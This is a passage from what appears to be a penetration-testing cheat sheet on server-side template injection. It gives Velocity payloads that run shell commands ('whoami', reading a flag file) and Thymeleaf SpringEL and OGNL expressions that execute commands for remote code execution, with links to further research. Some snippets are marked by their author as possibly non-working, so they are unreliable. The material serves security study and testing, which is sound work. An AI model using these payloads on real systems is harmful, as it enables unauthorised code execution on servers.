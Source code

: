 ```

```java
// I think this doesn't work
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end

// This should work?
#set($s="")
#set($stringClass=$s.getClass())
#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("cat%20/flag563378e453.txt"))
#set($out=$process.getInputStream())
#set($null=$process.waitFor() )
#foreach($i+in+[1..$out.available()])
$out.read()
#end
```
```
**More information**

- In Velocity section of [[https://portswigger.net/research/server-side-template-injection|https://portswigger.net/research/server-side-template-injection]]
- [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity|https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity]]

### Thymeleaf

In Thymeleaf, a common test for SSTI vulnerabilities is the expression `${7*7}`, which also applies to this template engine. For potential remote code execution, expressions like the following can be used:

- SpringEL:

  ```java
  ${T(java.lang.Runtime).getRuntime().exec('calc')}
  ```

- OGNL:

  ```java
  ${#rt = @java.lang.Runtime@getRuntime(),#rt.exec("calc")}
  ```

Thymeleaf requires these expressions to be placed within specific attributes. However, _expression inlining_ is supported for other template locations, using syntax like `[[...]]` or `[(...)]`. Thus, a simple SSTI test payload might look like `[[${7*7}]]`.
